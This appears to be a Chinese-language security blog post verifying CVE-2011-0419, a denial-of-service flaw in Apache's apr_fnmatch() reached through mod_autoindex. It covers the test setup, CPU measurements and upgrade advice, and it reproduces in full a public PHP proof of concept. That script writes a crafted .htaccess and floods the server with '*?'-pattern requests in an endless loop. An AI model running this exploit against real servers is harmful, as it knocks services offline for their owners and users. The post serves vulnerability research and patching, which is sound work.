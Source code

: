 ```yaml
---
layout: post
title:  CVE-2011-0419
category: security
tags: [CVE-2011-0419]
keywords: CVE-2011-0419
description: CVE-2011-0419研究
---  
```


## Apache 1.4/2.2.x - APR 'apr_fnmatch()' Denial of Service(CVE-2011-0419)漏洞研究      
工作中扫描发现Apache 1.4/2.2.x - APR 'apr_fnmatch()' Denial of Service(CVE-2011-0419)漏洞，对于该漏洞，我们做出如下验证与研究：  

**1. 漏洞信息**  
![b1](/assets/themes/images/b1.png)  
Apache Portable Runtime (APR)库1.4.3之前版本，Apache HTTP Server2.2.18之前版本的apr_fnmatch.c中存在栈消耗漏洞。该漏洞是由于“fnmatch()”函数的实现没有正确限制它的递归调用，远程攻击者可以借助first参数中的*?序列针对mod_autoindex某块进行攻击，从而导致拒绝服务（CPU和内存消耗）。  
APR(Apache portable Run-time libraries，Apache可移植运行库)的目的如其名称一样，主要为上层的应用程序提供一个可以跨越多操作系统平台使用的底层支持接口库。  
也就是说Apache的APR库中的fnmatch()函数出了问题，可以造成DOS攻击。   
 
**2.漏洞研究与验证：**  
测试环境：Redhat6.5，Apache 2.2.17    
![b2](/assets/themes/images/b2.png)   
根据exploit-db的资料，实现该攻击需要支持autoindex模块，也就是支持列目录，并且该目录中需要有较长文件名的文件。  
首先开启列列目录功能，对httpd.conf文件做如下修改：  
![b3](/assets/themes/images/b3.png)  
其中Indexs就是开启列目录，然后我们创建一个文件，根据POC，这个文件名为“cx..............................(125个点)”，如下图：  
![b4](/assets/themes/images/b4.png)   
在攻击前，我们首先观察一下CPU的占用情况，正常。  
![b5](/assets/themes/images/b5.png)  
网上POC如下：  
![b6](/assets/themes/images/b6.png)  
对一些参数进行具体的修改，如ip、目录等。执行攻击脚本： 
 
    php -f run.php  

过一段时间，再次观察CPU使用情况：    
![b7](/assets/themes/images/b7.png)   
可见，新出现许多httpd进程，并且CPU已到达99.5%，此时服务器明显卡顿，再次访问相关页面，也无法打开：  
![b8](/assets/themes/images/b8.png)  
至此，DOS攻击成功。  

**3.总结： **  

Apache HTTP Server2.2.18之前版本的apr_fnmatch.c中存在栈消耗漏洞，在支持autoindex模块的前提下，可能造成DOS攻击。2.2.18版本是2011年的版本，版本较低，建议升级，同时autoindex模块会造成不必要的信息泄露，也应关闭。poc如下：  
  

    source: http://www.securityfocus.com/bid/47820/info

	Apache APR is prone to a vulnerability that may allow attackers to cause a denial-of-service condition.
	
	Apache APR versions prior to 1.4.4 are vulnerable. 
	
	<?php
	/*
	Apache 2.2.17 mod_autoindex local/remote Denial of Service
	author: Maksymilian Arciemowicz
	
	CVE: CVE-2011-0419
	CWE: CWE-399
	
	REMOTE
	Find some directory with supported mod_autoindex on the server. The directory should contain long filenames.
	
	http://[server]/[directory_with_mod_autoindex]/?P=*?*?*?[to 4k]
	
	LOCAL
	Tested on:
	127# httpd -v && uname -a 
	Server version: Apache/2.2.17 (Unix)
	Server built:   Dec 28 2010 13:21:44
	NetBSD localhost 5.1 NetBSD 5.1 (GENERIC) #0: Sun Nov  7 14:39:56 UTC 2010  builds@b6.netbsd.org:/home/builds/ab/netbsd-5-1-RELEASE/i386/201011061943Z-obj/home/builds/ab/netbsd-5-1-RELEASE/src/sys/arch/i386/compile/GENERIC i386
	
	Result:
	127# ls -la   
	total 8
	drwxrwxrwx  2 root  wheel   512 Feb  8 21:41 .
	drwxr-xr-x  7 www   wheel  1024 Jan 31 08:49 ..
	-rw-r--r--  1 www   wheel  1056 Feb  8 19:39 .htaccess
	-rw-r--r--  1 www   wheel     0 Feb  8 19:39 cx.............................................................................................................................
	-rw-r--r--  1 www   wheel  1240 Feb  8 19:42 run.php
	127# ps -aux -p 617 
	USER PID %CPU %MEM   VSZ  RSS TTY STAT STARTED      TIME COMMAND
	www  617 98.6  0.4 10028 4004 ?   R     7:38PM 121:43.17 /usr/pkg/sbin/httpd -k start 
	
	Time = 121:43 and counting
	
	where http://[$localhost]:[$localport]/[$localuri]
	*/
	$localhost="192.168.160.237";
	$localport=80;
	$localuri="/tf";
	
	
	if(!is_writable(".")) die("!writable");
	
	// Phase 1
	// Create some filename
	touch("cx".str_repeat(".",125));
	
	// Phase 2
	// Create .htaccess with 
	unlink("./.htaccess");
	$htaccess=fopen("./.htaccess", "a");
	fwrite($htaccess,"AddDescription \"CVE-2011-0419\" ".str_repeat('*.',512)."\n");
	fclose($htaccess);
	
	// Phase 3
	// Local connect (bypass firewall restriction)
	while(1){
		$fp = fsockopen($localhost, $localport, $errno, $errstr, 30);
		if (!$fp) echo "$errstr ($errno)<br />\n";
		else {
			$out = "GET ".$localuri."/?P=".str_repeat("*?",1500)."* HTTP/1.1\r\n";
			$out .= "Host: ".$localhost."\r\n";
			$out .= "Connection: Close\r\n\r\n";
			fwrite($fp, $out);
			fclose($fp);
		}
	}
	
	?>



 



